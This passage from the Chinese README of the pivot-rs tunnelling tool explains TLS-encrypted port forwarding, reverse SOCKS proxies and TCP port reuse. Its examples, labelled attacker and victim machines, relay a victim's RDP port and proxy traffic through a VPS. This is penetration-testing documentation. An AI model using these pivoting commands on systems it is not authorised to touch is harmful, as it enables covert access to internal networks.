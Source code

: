 ### TLS 加密

TLS 加密支持 TCP 端口转发, Unix domain socket 转发和 Socks 代理.

要启用加密, 只需要在地址或端口前加上 `+` 符号.

为了方便使用, 服务端会生成一个自签名的证书, 客户端会信任所有证书 (不验证证书和连接地址是否匹配).

一个 TCP 端口转发启用 TLS 加密的示例.

```bash
# 攻击者机器
./pivot fwd -l +7777 -l 33890

# 受害者机器
./pivot fwd -r 127.0.0.1:3389 -r +vps:7777

# 现在攻击者可以通过 vps:33890 访问受害者的 3389 端口, 在 7777 端口上的流量会被加密
```

一个反向 Socks 代理启用 TLS 加密的示例.

```bash
# 攻击者机器
./pivot proxy -l +7777 -l 8888

# 受害者机器
./pivot proxy -r +vps:7777

# 现在攻击者可以在 vps:8888 上使用 Socks 代理, 在 7777 端口上的流量会被加密
```

### TCP 端口复用

`pivot-rs` 支持使用 `SO_REUSEADDR` 和 `SO_REUSEPORT` 选项进行 TCP 端口复用.

端口复用的行为因操作系统而异.

在 Windows 中, 只有 `SO_REUSEADDR` 选项, 允许多个 socket 绑定到同一个地址和端口. 但也有一些限制, 具体取决于运行 `pivot-rs` 的帐户以及绑定的 IP 地址, 具体可以参考如下链接.

[https://learn.microsoft.com/en-us/windows/win32/winsock/using-so-reuseaddr-and-so-exclusiveaddruse](https://learn.microsoft.com/en-us/windows/win32/winsock/using-so-reuseaddr-and-so-exclusiveaddruse)

Linux 通过 `SO_REUSEADDR` 和 `SO_REUSEPORT` 两个选项实现端口复用, 原理是绑定不同的 IP 地址.

|  复用地址/监听地址   | 0.0.0.0 | 192.168.1.1 | 10.0.0.1 |
| :---------------: | :-----: | :---------: | :------: |
|    **0.0.0.0**    |    x    |      x      |    x     |
|  **192.168.1.1**  |    x    |      x      |    √     |
|   **10.0.0.1**    |    x    |      √      |    x     |

`0.0.0.0` 与其它任何地址互斥, 即某个程序如果监听了 `0.0.0.0:80` 地址, 那么就无法对 80 端口进行复用 (反之亦然).

另外存在一种场景可以实现 IP 地址完全相同的端口复用, 即某个程序本身就设置了 `SO_REUSEPORT` 选项, 并且执行该程序的用户的 uid 与执行端口复用的用户的 uid 相同.

